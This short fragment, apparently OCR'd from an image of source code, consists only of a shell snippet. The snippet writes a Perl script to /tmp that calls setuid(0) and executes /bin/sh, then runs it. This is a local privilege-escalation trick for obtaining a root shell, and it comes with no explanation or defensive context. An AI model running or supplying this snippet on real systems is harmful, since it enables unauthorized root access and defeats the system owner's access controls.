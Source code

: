 ```
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
```



